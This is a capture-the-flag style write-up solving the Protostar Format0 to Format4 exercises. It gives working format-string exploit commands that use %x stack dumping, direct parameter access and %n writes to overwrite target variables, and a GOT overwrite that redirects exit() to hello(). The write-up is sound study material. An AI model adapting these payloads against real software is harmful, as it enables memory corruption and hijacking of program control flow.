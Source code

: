 # Exploit-Exercises Protostar Writeup - Format

## Before Start
If you don't have much experience in Format String Attack, I recommend you to go through the following reading materials.      
[Format String Attack](https://www.owasp.org/index.php/Format_string_attack)    
[Stanford CS115 Paper About Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)        
[An Abstract Version](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)

## [Format0](https://exploit-exercises.com/protostar/format0/)
This one can be done with stack overflow. ```./format0 $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")```.     
But.. No! We should exploit format string vulnerabilities in this level. The hint says "This level should be done in less than 10 bytes of input".    
Looking at the source code, ```sprintf(buffer, string);``` will write formated string data to the buffer. So what we gonna do is to make the string 68 bytes long with "0xdeadbeef" at the end.    
The command is: ```./format0 $(python -c "print '%64s'+'\xef\xbe\xad\xde'")```   
![format0_1](./images/format0_1.png)    


## [Format1](https://exploit-exercises.com/protostar/format1/)
This challenge is an exploitation through pure format strings (3.4.2 in the Stanford's paper).    
First, we run ```objdump -t```. Now we can see the address of variable "target" is _0x08049638_. This is our target address to overwrite on.      
![format1_1](./images/format1_1.png)    
Next, we should find out how many bytes between current position and our input string. Then we can fill the exact number of "%x" to move the pointer to our input string. We will input a bunch of "A" with enough "%x" to partially dump the stack. We can modify the number of "%x" to make it loacte exactly before the first "A".       
Try ```./format1 $(python -c 'print "A"*16+"%x."*100')```, and didn't find the "4141414141". So I modified 100 to 200. Now I did see the bunch of "A"s. 
![format1_2](./images/format1_2.png)    
Now modify the number to make it locate at first "A".     
![format1_3](./images/format1_3.png)     
You will find the offset may also be changed with the length of our payload. So I would like to recommand using __Direct Parameter Access__(4.3). This technique make us to uses the ```$``` to directly access a parameter by giving the location. With DPA, we can change the length of "%x" without changing the length of our input string. It can efficiently benefit our exploitation.
![format1_4](./images/format1_4.png)
The final step is just substitute "$08x" with "$08n". The command is:     
```./format1 $(python -c 'print "\x38\x96\x04\x08"+"_BB"+"%129$08n"')```    
![format1_5](./images/format1_5.png)

The ```%n``` will write the number of bytes written so far to the given address. It is sure to be greater than 0, so we can hit the success brach. 
    


## [Format2](https://exploit-exercises.com/protostar/format2/)
This level can be solved with the same idea of previous one. The differences are that we have to modify target to a specific value and provide our input through standard input instead of parameter.      
First, we still use ```objdump -t format2 | grep target``` to get the address of target, which is _0x080496e4_ in this case.      
Then, we try to locate our input string. The buffer is in the same frame of the function. So it should be not far away from the current pointer.     
![format2_1](./images/format2_1.png)    
The buffer has a fixed size, which means that the offset should be fixed when the length of our input changed.      
Now we already locate the string, the only thing left is to get our input having the correct length before ```%n```. To make our string more compact, I used ```%xu``` before "%n" to control the length.    
```python -c 'print "\xe4\x96\x04\x08_%30u"+"%4$n"' | ./format2```
![format2_2](./images/format2_2.png)
We didn't get the correct value, but we can know that we just succesfully write an arbitary data into the target. We are not far away from success. Just modify the padding of ```%u```.     
```python -c 'print "\xe4\x96\x04\x08_%59u"+"%4$n"' | ./format2```    
![format2_3](./images/format2_3.png)
Done!!     



## [Format3](https://exploit-exercises.com/protostar/format3/)
This one can be solved with exactly the same idea in Format2.    
The address of 'target' is _0x080496f4_. With the same technique used in the previous ones. We can find that there are 12 bytes between the current pointer and the buffer. 
![format3_1](./images/format3_1.png)
We should modify the value of 'target' into 0x01025544, which is 16930116 in decimal. So we use ```%_n_u``` to control the counter written by ```%n```. Coz there are 5 bytes ahead, so it should be ```%16930111u```.    
The complete command should be:     
```python -c 'print "\xf4\x96\x04\x08_%16930111u"+"%12$08n"' | ./format3```   



## [Format4](https://exploit-exercises.com/protostar/format4/)
In this challenge, we gonna exploit format string vulnerability to overwrite the __Global Offset Table (GOT)__ and then redirect the program execution flow.    
Before start, I read [a short paper](http://www.infosecwriters.com/text_resources/pdf/GOT_Hijack.pdf) about GOTHijack. After reading, I have a basic idea about how GOT Overwrite works.     
Looking at the source code of _format4.c_. After ```printf(buffer);```, the function calls ```exit(1);```. If we would like to execute ```hello()``` during the procedure, we have to overwrite the address of ```exit()``` to ```hello()```'s address. 
We try to run ```objdump -TR ./format4```.    
![format4_1](./images/format4_1.png)
We can find the offset of ```exit``` is 0x08049724. This is also the address we gonna overwrite. Next, we should find out the address of ```hello()```. This is the value we need to write into the ```exit```'s entry in GOT. Using ```objdump -t ./format4 | grep hello``` command, we can easily get this address. 
![format4_2](./images/format4_2.png)
```hello()``` locates at 0x080484b4. Up to now, we have the target address and the value to overwrite. So the next steps are similar to previous challenges. 
![format4_3](./images/format4_3.png)
After outputing billians of empty characters, we got our expected result. 
![format4_4](./images/format4_4.png)


